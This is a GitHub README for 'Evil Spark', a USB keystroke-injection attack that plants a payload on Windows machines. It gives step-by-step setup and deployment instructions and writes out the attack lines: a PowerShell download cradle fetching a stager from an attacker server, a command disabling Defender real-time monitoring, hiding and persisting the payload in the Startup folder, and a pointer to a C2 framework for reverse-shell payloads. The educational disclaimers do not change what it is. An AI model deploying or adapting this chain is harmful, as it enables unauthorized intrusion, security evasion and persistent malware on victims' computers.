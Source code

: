# Evil Spark 

**⚠️ DANGER: EXTREME WARNING ⚠️**
This project is developed for **educational and research purposes ONLY**. Unauthorized use of this tool on any system or network without explicit, prior, mutual, and written consent is **ILLEGAL** and **STRICTLY PROHIBITED**. The creators and contributors of Evil Spark assume **NO LIABILITY** and are **NOT RESPONSIBLE** for any misuse, damage, or legal consequences arising from the use or handling of this software. **USE AT YOUR OWN EXTREMIA PERIL AND RESPONSIBILITY.**

---

## 🚀 Project Overview
Evil Spark demonstrates a proof-of-concept (PoC) attack chain utilizing a Digispark-compatible USB device. This device emulates keyboard actions to automate tasks on a target Windows machine, leading to the download and execution of a custom payload with persistence. This project integrates:
* A Linux-based server setup script (`setup.sh`).
* A Digispark sketch (`Evil_Spark.ino`) written in C++. [cite: 5]
* A PowerShell script (`Starter.ps1`) for payload deployment and execution. [cite: 4]

This project is designed to help understand HID attacks, payload delivery mechanisms, and basic persistence techniques from a defensive perspective.

## 🔥 Key Features
* ✔️ Automated Keystroke Injection via Digispark (HID Attack).
* ✔️ Apache Server Setup Script (`setup.sh`) for hosting payloads.
* ✔️ PowerShell-based payload stager (`Starter.ps1`) for:
    * Attempting to disable Windows Defender. [cite: 4]
    * Downloading the main payload. [cite: 4]
    * Executing the payload. [cite: 4]
    * Achieving persistence via the Startup folder. [cite: 4]

## 🔗 Workflow At a Glance
1.  **💻 Attacker Setup:**
    * The `setup.sh` script configures an Apache server on Linux to host `Starter.ps1` and the `payload.exe`.
    * The `Evil_Spark.ino` (C++ sketch) [cite: 5] is customized with the server's IP and uploaded to the Digispark device using the Arduino IDE.
2.  **🔌 Deployment:**
    * The programmed Evil Spark USB is plugged into the target Windows computer.
3.  **🤖 Automated Execution (Digispark):**
    * The Digispark emulates keyboard inputs. [cite: 5]
    * It attempts to disable Windows Defender through UI manipulation. [cite: 5]
    * It opens PowerShell (with attempted admin rights) [cite: 5] and commands it to download and execute `Starter.ps1` from the attacker's server. [cite: 5]
4.  **🎯 Payload Delivery & Persistence (`Starter.ps1`):**
    * `Starter.ps1` runs on the target machine. [cite: 4]
    * Downloads the main `payload.exe` (e.g., `ring.exe` as in the example script)[cite: 4].
    * Saves the payload to the Windows Startup folder for persistence. [cite: 4]
    * Hides the payload file. [cite: 4]
    * Executes the payload. [cite: 4]

## ⚙️ Project Components

### 1. `setup.sh` (Bash Script)
* Automates Apache2 web server setup on Debian-based Linux.
* Updates packages, installs Apache2, and starts the service.
* Creates `/var/www/html/tools` for hosting files. [cite: 3]
* Moves `payload.exe` (or your chosen name) and `Starter.ps1` to the tools directory. [cite: 3]

### 2. `Evil_Spark.ino` (Digispark C++ Sketch)
* Arduino C++ code for ATtiny85 based Digispark-compatible devices. [cite: 5]
* Simulates keyboard inputs to perform the automated attack steps. [cite: 5]
* **Requires Arduino IDE for compilation and upload.** (Download from: [https://www.arduino.cc/en/software/](https://www.arduino.cc/en/software/))

### 3. `Starter.ps1` (PowerShell Script)
* PowerShell script executed on the target. [cite: 4]
* Attempts `Set-MpPreference -DisableRealtimeMonitoring $true`. [cite: 4]
* Downloads the main payload (e.g., `ring.exe`) to the Startup folder. [cite: 4]
* Hides the payload using `attrib +h +s`. [cite: 4]
* Executes the payload. [cite: 4]

### 4. `payload.exe` (Example: `ring.exe`)
* **THIS IS THE CORE PAYLOAD YOU MUST CREATE OR PROVIDE.**
* This project *does not* include a pre-made `payload.exe`.
* Functionality is user-defined (e.g., reverse shell, information gathering, etc.).
* **Payload Inspiration & Reference:** For creating a custom payload, particularly one in Go (which compiles to an `.exe`), you can study projects like **RingShell**. RingShell is a Go-based C2 framework and can serve as an excellent reference for understanding how such payloads are structured and deployed.
    * RingShell GitHub Repository: [https://github.com/MustafaAbdulazizHamza/RingShell/tree/main](https://github.com/MustafaAbdulazizHamza/RingShell/tree/main)

## 🛠️ Prerequisites & Tools
* 🐧 A Linux machine (Debian-based recommended for `setup.sh`) for the server.
* 🔌 Digispark ATtiny85 compatible USB board.
* 💻 **Arduino IDE:** Used to compile the C++ sketch (`.ino`) and upload it to the Digispark. [cite: 5]
    * Download: [https://www.arduino.cc/en/software/](https://www.arduino.cc/en/software/)
* 🎯 A Windows target machine for testing (**WITH EXPLICIT, PRIOR, WRITTEN CONSENT ONLY**).
* 👾 Your custom `payload.exe` (e.g., `ring.exe`).

## 🚀 Setup & Deployment Guide

### 1.  SERVER: Apache Setup (`setup.sh`)
1.  Place `setup.sh`, your `payload.exe` (e.g., `ring.exe`), and `Starter.ps1` in the same directory on your Linux server.
2.  Edit `setup.sh`:
    * Set `PAYLOAD="your_payload_name.exe"` (e.g., `PAYLOAD="ring.exe"`). [cite: 3]
    * Ensure `SHELL_SCRIPT="Starter.ps1"`. [cite: 3]
3.  Make `setup.sh` executable: `chmod +x setup.sh`.
4.  Run with sudo: `sudo ./setup.sh`.
5.  Note your server's IP address (the script attempts to display it).

### 2. TARGET SCRIPT: `Starter.ps1` Configuration
1.  Edit `Starter.ps1`.
2.  Update the URI in `Invoke-WebRequest` to point to your payload on your server:
    * Example: `Invoke-WebRequest -Uri "http://<YOUR_SERVER_IP>/tools/ring.exe" -OutFile $target` [cite: 4]
    * Replace `<YOUR_SERVER_IP>` and ensure `ring.exe` matches your payload filename.

### 3. DIGISPARK: `Evil_Spark.ino` Programming
1.  Open `Evil_Spark.ino` (your C++ sketch for the Digispark) in the **Arduino IDE**. [cite: 5]
2.  Modify the line that fetches `Starter.ps1` to include your server's IP:
    * Example: `DigiKeyboard.print("iex (iwr 'http://<YOUR_SERVER_IP>/tools/Starter.ps1')");` [cite: 5]
3.  In Arduino IDE:
    * Ensure Digispark board drivers/support are installed.
    * Select the correct Digispark board from the Tools menu.
    * Compile and Upload the sketch to your Digispark.

### 4. 💣 DEPLOYMENT
1.  Ensure your Apache server is running and accessible.
2.  Plug the programmed Evil Spark USB into the **consenting** target Windows machine.
3.  The Digispark will emulate keystrokes and initiate the programmed sequence. [cite: 5]

## ❗ Important Considerations & Limitations
* **UAC (User Account Control):** The `.ino` sketch attempts to handle UAC. [cite: 5] Its success varies based on target system settings.
* **Antivirus (AV) & EDR:** Basic attempts to disable Windows Defender [cite: 4, 5] are included. Modern AV/EDR solutions will likely detect and block these activities. This PoC is not designed for stealth.
* **Keyboard Layouts:** Keystroke emulation typically assumes a US QWERTY layout. Results may vary on different layouts.
* **Timings & Delays:** `DigiKeyboard.delay()` values in the `.ino` sketch are critical. [cite: 5] Adjust them based on target system responsiveness.
* **Network Connectivity:** The target PC needs HTTP (port 80) access to your server.
* **Payload Naming:** Ensure consistency in payload filenames across `setup.sh`, `Starter.ps1`, and your actual payload file.

## 📜 Ethical Conduct & Legal Disclaimer
Reiterating the initial warning: This project is **STRICTLY FOR EDUCATIONAL PURPOSES**. Understanding offensive security techniques is vital for building robust defenses. **DO NOT USE THIS TOOL OR ANY DERIVATIVE ON SYSTEMS OR NETWORKS WITHOUT EXPLICIT, WRITTEN PERMISSION.** Unauthorized system access is a serious crime.

## 📄 License
This project is shared for educational exploration. While no specific open-source license is formally attached, users are expected to adhere to the ethical guidelines and disclaimers stated herein. If you adapt or distribute this work, please maintain its educational context and include all original warnings and disclaimers.

---
*Happy (Ethical) Hacking!* 👨‍💻🔬
